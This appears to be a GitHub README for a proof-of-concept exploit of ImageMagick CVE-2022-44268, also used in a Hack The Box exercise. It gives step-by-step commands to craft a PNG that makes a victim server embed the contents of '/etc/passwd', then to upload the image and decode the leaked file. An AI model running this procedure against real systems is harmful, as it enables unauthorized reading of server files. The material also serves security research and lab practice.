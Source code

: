 # ImageMagick-lfi-poc
### ImageMagick Arbitrary Read Files - CVE-2022-44268

also used in htb pilgrimage

## ImageMagick LFI PoC [CVE-2022-44268]


The researchers at [MetabaseQ](https://www.metabaseq.com/imagemagick-zero-days/) discovered CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).



Step 1 :

run

```
pip install pillow
sudo apt install graphicsmagick-imagemagick-compat
```

Step 2 ;

run

```
python3 magick_exploit.py generate -l [local_file] -o [output_file]
```

here in this case the local file is '/etc/passwd' which i want to get from the victim machine.

step 3 :

upload the image file on the website

step 4 :

get he converted image file from the website.
name it as 'downloaded_image.png'

step 5:

run 

```
python3 decode_profile.py
```

![](20230723122440.png)


## Credits

1. https://github.com/adhikara13/CVE-2022-44268-MagiLeak
2. https://github.com/Sybil-Scan/imagemagick-lfi-poc


